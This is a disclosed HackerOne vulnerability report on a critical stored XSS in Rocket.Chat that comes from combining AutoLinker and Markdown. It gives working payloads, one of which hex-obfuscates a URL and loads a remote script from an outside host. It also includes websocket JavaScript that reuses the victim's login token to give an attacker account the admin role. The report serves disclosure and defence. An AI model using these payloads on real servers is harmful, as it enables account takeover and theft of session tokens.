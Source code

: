 # Account takeover via XSS

## Report Details
- **Report ID**: 735638
- **URL**: https://hackerone.com/reports/735638
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-11-11T20:25:38.352Z
- **Disclosed**: 2021-03-31T08:30:49.240Z

## Reporter
- **Username**: sectex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** By combining AutoLinker and Markdown an attacker is able to inject malicious scripts.

**Description:** By combining AutoLinker and Markdown we can trick the parser into breaking out of the current HTML attribute. 
```
https://a?p=[ ](https:// style=animation-duration:1s;animation-name:blink;animation-iteration-count:2 onanimationiteration=Array.prototype[Symbol.hasInstance]=eval,'alert\x28\x27XSS\x27\x29;'instanceof[] target=_blank data-x=`.`)
```
results in:
```html
<a href="https://a?p=<a href=" https:="" style="animation-duration:1s;animation-name:blink;animation-iteration-count:2" onanimationiteration="Array.prototype[Symbol.hasInstance]=eval,'alert\x28\x27XSS\x27\x29;'instanceof[]" target="_blank" data-x="<span" class="copyonly">`<span><code class="code-colors inline">.</code></span><span class="copyonly">`</span>" target="_blank" rel="noopener noreferrer"&gt; </a>
" target="_blank" rel="noopener noreferrer"&gt;https://a?p==!=7vrXTtDtYHrLJ4Z7y=!="
```

To obtain the login-token of the victim we can either use `document.cookie` or `localStorage.getItem('Meteor.loginToken')`.
Since we can authenticate against the websocket using this token, we can perform any actions in the context of the victim (change password, email etc.).

## Releases Affected:

  * Rocket.Chat-Desktop-Client: v2.16.2
  * Rocket.Chat-Server: v2.0.0
  * Apps-Engine-Version: v1.5.2

## Steps To Reproduce (from initial installation to vulnerability):

In this example, the role `admin` is assigned to the desired user as far as the victim has the required permissions.

Code (replace `{ATTACKER_USERID}` and `{ATTACKER_EMAIL}`):
```javascript
    let ws = new WebSocket(`wss://${window.location.host}/sockjs/111/evilwss/websocket`);
    ws.onmessage = function (evt) {
        if (/\["{\\"msg\\":\\"pong\\"}"\]/.test(event.data)) {
            ws.send('["{\\"msg\\":\\"pong\\"}"]');
        }
        if (/a\["{\\"server_id\\":\\"(.*)\\"}"\]/.test(event.data)) {
            ws.send('["{\\"msg\\":\\"connect\\",\\"version\\":\\"1\\",\\"support\\":[\\"1\\",\\"pre2\\",\\"pre1\\"]}"]');
            ws.send(`["{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"resume\\":\\"${localStorage.getItem('Meteor.loginToken')}\\"}],\\"id\\":\\"1\\"}"]`);
        }
        if (/a\["{\\"msg\\":\\"connected\\",\\"session\\":\\"(.*)\\"}"\]/.test(event.data)) {
            ws.send('["{\\"msg\\":\\"method\\",\\"method\\":\\"insertOrUpdateUser\\",\\"params\\":[{\\"_id\\":\\"{ATTACKER_USERID}\\",\\"statusText\\":\\"\\",\\"email\\":\\"{ATTACKER_EMAIL}\\",\\"verified\\":false,\\"password\\":\\"\\",\\"requirePasswordChange\\":false,\\"joinDefaultChannels\\":false,\\"sendWelcomeEmail\\":false,\\"roles\\":[\\"user\\",\\"admin\\"]}],\\"id\\":\\"17\\"}"]');
        }
    };
```
Payload (replace `sectex.dev\x2ffiles\x2fcswsh.js`):
```
https://a?p=[ ](https:// style=animation-duration:1s;animation-name:blink;animation-iteration-count:2 onanimationiteration=Array.prototype[Symbol.hasInstance]=eval,'s=document.createElement\x28\x27script\x27\x29;s.src=\x27\x68\x74\x74\x70\x73\x3a\x2f\x2fsectex.dev\x2ffiles\x2fcswsh.js\x27;document.body.appendChild\x28s\x29;'instanceof[] target=_blank data-x=`.`)
```

## Supporting Material/References:

  * {F631806}

## Suggested mitigation

  * Fix initial XSS

## Impact

* Attackers can execute scripts which can lead to:
    * Account takeover
    * Abitrary file read in Rocket.Chat-Desktop
    * RCE in Rocket.Chat-Desktop (#276031)

## Attachments
- rocketchat.mp4
